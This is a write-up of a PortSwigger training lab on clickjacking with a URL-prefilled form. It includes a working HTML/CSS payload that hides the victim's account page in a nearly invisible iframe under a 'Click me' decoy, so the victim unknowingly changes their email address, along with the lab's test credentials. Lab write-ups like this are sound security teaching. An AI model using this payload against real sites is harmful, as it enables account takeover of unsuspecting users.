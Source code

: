 # Clickjacking with form input data prefilled from a URL parameter

[This lab](https://portswigger.net/web-security/clickjacking/lab-prefilled-form-input) extends the above `Basic clickjacking with CSRF token protection` lab (above). The goal of the lab is to change the email address of the user by prepopulating a form using a URL parameter and enticing the user to inadvertently click on an "Update email" button. 

## Reproduction and proof of concept

1. Log in to the account on the target website.
2. Create payload:
* The iframe `src` URL points to the target website vulnerable page. In this case, the page containing the "Update email" form, and depends on the unique lab-ID.
* An initial opacity of 0.1 to align the iframe actions and adjust the position values.
* Initial `top` and `left` values of resp `400px` and `80px` - to align the "Update email" button with the "Test me" decoy action.

```text
<style>
    iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 400px;
        left: 80;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

3. Go to the exploit server and paste the payload into the `body` field of the form.
4. Click **Store** and then **View exploit**. Hover over "Test me" to make sure the cursor changes to a hand indicating that the `div` element is positioned correctly. If it is not, change the position of the `div` element by modifying the `top` and `left` properties of the style sheet.
5. Change "Test me" to "Click me", set `opacity` to `0.0001`, and click **Store**.

![Clickjacking](../../_static/images/clickjacking3.png)

6. And **Deliver exploit to victim**

## Exploitability

An attacker needs to craft some HTML that frames the account page and fools the user into updating their email address by clicking on a "Click me" decoy. An account with credentials `wiener:peter` is available.
